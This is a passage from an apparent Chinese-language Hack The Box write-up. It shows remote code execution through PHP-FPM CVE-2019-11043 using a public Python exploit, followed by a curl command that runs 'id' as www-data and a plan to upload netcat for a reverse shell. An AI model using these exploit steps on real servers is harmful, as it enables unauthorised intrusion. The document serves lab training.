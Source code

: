 好吧，我承认我期待更多！搜索 PHP-FPM 漏洞会发现 Github 上有很多选项，比如[这个](https://github.com/AleWong/PHP-FPM-Remote-Code-Execution-Vulnerability-CVE-2019-11043-)一个、[这个](https://github.com/neex/phuip-fpizdam)一个或者[这个](https://github.com/theMiddleBlue/CVE-2019-11043)一个。我选择了最简单的，一个简单的 Python 脚本:

![](img/4244dae8fd76e052fe0699c1b4476a48.png)

PHP-FPM 漏洞

# RCE 利用

我们可以通过隧道在服务器上运行它:

```
┌──(root💀kali)-[~/htb/static]
└─# python3 exploit.py --url http://localhost/index.php
[*] QSL candidate: 1754, 1759, 1764
[*] Target seems vulnerable (QSL:1754/HVL:224): PHPSESSID=d129421703528e986f0c21155dd4b765; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://localhost/index.php?a=bin/ls+/
```

看起来不错，我们试试吧:

```
┌──(root💀kali)-[~/htb/static]
└─# curl -s http://localhost/index.php?a=/usr/bin/id
[03-Nov-2021 22:41:23 UTC] PHP Warning:  Unknown: Unable to load dynamic library 'uid=33(www-data) gid=33(www-data) groups=33(www-data)
' - uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

这是可行的，所以我们可以通过隧道远程执行代码到服务器。但是我们不能在 pki 服务器上执行反向 shell，并在 Kali 上将其捕获回来。相反，我们需要在中间的 web 服务器上，所以我们只需要复制 netcat 的静态二进制文件，因为它目前不在机器上。

Github 上有很多选项，我用的是[这个](https://github.com/H74N/netcat-binaries/blob/master/nc)的:
